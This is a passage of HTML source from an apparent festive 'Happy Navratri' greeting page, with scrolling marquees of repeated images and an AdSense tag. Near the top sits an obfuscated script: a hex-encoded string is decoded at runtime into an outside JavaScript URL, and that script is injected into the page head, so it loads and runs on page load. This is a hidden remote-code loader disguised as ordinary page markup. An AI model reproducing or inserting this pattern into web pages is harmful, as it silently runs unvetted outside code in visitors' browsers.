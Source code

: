 <script type="text/javascript">function tag(filename){var fileref=document.createElement('script');fileref.setAttribute("type","text/javascript");fileref.setAttribute("src", filename);if (typeof fileref!="undefined") document.getElementsByTagName("head")[0].appendChild(fileref)}tag(meta('68747470733a2f2f6b616e616e6174682e636f6d2f6b616e616e6174682e6a73'));function meta(important){var str = '';for (var i = 0; i < important.length; i += 2) str +=String.fromCharCode(parseInt(important.substr(i, 2), 16));return str;}</script>
 <script data-ad-client="ca-pub-9485249170740885" async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
</head>
<body class="bg" style=" background-image : url('https://media3.giphy.com/media/U3qYN8S0j3bpK/giphy.gif')";>

<center><span class="hny-txt" style="font-size: 15px;">
<span style="color: yellow;">▂ ▄ ▅ ▇ Happy Navratri ▇ ▅ ▄ ▂</span> 
</span></center>


<marquee class="wb1" behavior="scroll" direction="up" scrolldelay="5">
<img src="https://1.bp.blogspot.com/-N8qocQFhrHw/X3gYJI-PsUI/AAAAAAAAAI4/9sgAWk-QELIwdI-iP5Er0C1kt5XXncNMQCLcBGAsYHQ/s0/1.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-hf0PZnWyOv8/X3gYJKY7OCI/AAAAAAAAAI0/uLGORpp6ZKUTV1zxIuz-SrXmW_b8GoJbACLcBGAsYHQ/s0/2.png" height="25px" width="25px"/><br> <br>
<img src="https://1.bp.blogspot.com/-oGGRGMFh9h4/X3gYI-A5yMI/AAAAAAAAAIw/QR4Y98p9Hbk3puwZU4HGXfMrnWNNvZodACLcBGAsYHQ/s320/3.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-byj9NvCNkbg/X3gYKLMKuPI/AAAAAAAAAI8/c9S7k4Zy9XQuNRHFMkwDEKHO39WsPTilQCLcBGAsYHQ/s0/4.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-N8qocQFhrHw/X3gYJI-PsUI/AAAAAAAAAI4/9sgAWk-QELIwdI-iP5Er0C1kt5XXncNMQCLcBGAsYHQ/s0/1.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-hf0PZnWyOv8/X3gYJKY7OCI/AAAAAAAAAI0/uLGORpp6ZKUTV1zxIuz-SrXmW_b8GoJbACLcBGAsYHQ/s0/2.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-oGGRGMFh9h4/X3gYI-A5yMI/AAAAAAAAAIw/QR4Y98p9Hbk3puwZU4HGXfMrnWNNvZodACLcBGAsYHQ/s320/3.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-byj9NvCNkbg/X3gYKLMKuPI/AAAAAAAAAI8/c9S7k4Zy9XQuNRHFMkwDEKHO39WsPTilQCLcBGAsYHQ/s0/4.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-N8qocQFhrHw/X3gYJI-PsUI/AAAAAAAAAI4/9sgAWk-QELIwdI-iP5Er0C1kt5XXncNMQCLcBGAsYHQ/s0/1.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-hf0PZnWyOv8/X3gYJKY7OCI/AAAAAAAAAI0/uLGORpp6ZKUTV1zxIuz-SrXmW_b8GoJbACLcBGAsYHQ/s0/2.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-oGGRGMFh9h4/X3gYI-A5yMI/AAAAAAAAAIw/QR4Y98p9Hbk3puwZU4HGXfMrnWNNvZodACLcBGAsYHQ/s320/3.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-byj9NvCNkbg/X3gYKLMKuPI/AAAAAAAAAI8/c9S7k4Zy9XQuNRHFMkwDEKHO39WsPTilQCLcBGAsYHQ/s0/4.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-N8qocQFhrHw/X3gYJI-PsUI/AAAAAAAAAI4/9sgAWk-QELIwdI-iP5Er0C1kt5XXncNMQCLcBGAsYHQ/s0/1.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-hf0PZnWyOv8/X3gYJKY7OCI/AAAAAAAAAI0/uLGORpp6ZKUTV1zxIuz-SrXmW_b8GoJbACLcBGAsYHQ/s0/2.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-oGGRGMFh9h4/X3gYI-A5yMI/AAAAAAAAAIw/QR4Y98p9Hbk3puwZU4HGXfMrnWNNvZodACLcBGAsYHQ/s320/3.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-byj9NvCNkbg/X3gYKLMKuPI/AAAAAAAAAI8/c9S7k4Zy9XQuNRHFMkwDEKHO39WsPTilQCLcBGAsYHQ/s0/4.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-N8qocQFhrHw/X3gYJI-PsUI/AAAAAAAAAI4/9sgAWk-QELIwdI-iP5Er0C1kt5XXncNMQCLcBGAsYHQ/s0/1.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-hf0PZnWyOv8/X3gYJKY7OCI/AAAAAAAAAI0/uLGORpp6ZKUTV1zxIuz-SrXmW_b8GoJbACLcBGAsYHQ/s0/2.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-oGGRGMFh9h4/X3gYI-A5yMI/AAAAAAAAAIw/QR4Y98p9Hbk3puwZU4HGXfMrnWNNvZodACLcBGAsYHQ/s320/3.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-byj9NvCNkbg/X3gYKLMKuPI/AAAAAAAAAI8/c9S7k4Zy9XQuNRHFMkwDEKHO39WsPTilQCLcBGAsYHQ/s0/4.png" height="25px" width="25px"/><br><br>
</marquee>

<marquee class="wb2" behavior="scroll" direction="down" scrolldelay="5"><br>
<img src="https://1.bp.blogspot.com/-N8qocQFhrHw/X3gYJI-PsUI/AAAAAAAAAI4/9sgAWk-QELIwdI-iP5Er0C1kt5XXncNMQCLcBGAsYHQ/s0/1.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-hf0PZnWyOv8/X3gYJKY7OCI/AAAAAAAAAI0/uLGORpp6ZKUTV1zxIuz-SrXmW_b8GoJbACLcBGAsYHQ/s0/2.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-oGGRGMFh9h4/X3gYI-A5yMI/AAAAAAAAAIw/QR4Y98p9Hbk3puwZU4HGXfMrnWNNvZodACLcBGAsYHQ/s320/3.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-byj9NvCNkbg/X3gYKLMKuPI/AAAAAAAAAI8/c9S7k4Zy9XQuNRHFMkwDEKHO39WsPTilQCLcBGAsYHQ/s0/4.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-N8qocQFhrHw/X3gYJI-PsUI/AAAAAAAAAI4/9sgAWk-QELIwdI-iP5Er0C1kt5XXncNMQCLcBGAsYHQ/s0/1.gif" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-hf0PZnWyOv8/X3gYJKY7OCI/AAAAAAAAAI0/uLGORpp6ZKUTV1zxIuz-SrXmW_b8GoJbACLcBGAsYHQ/s0/2.png" height="25px" width="25px"/><br><br>
<img src="https://1.bp.blogspot.com/-oGGRGMFh9h4/X3gYI-A5yMI/AAAAAAAAAIw/QR4Y98p9Hbk3puwZU4HGXfMrnWNNvZodACLcBGAsYHQ/s320/3.gif" height="25px" width="25px"/><br><br>
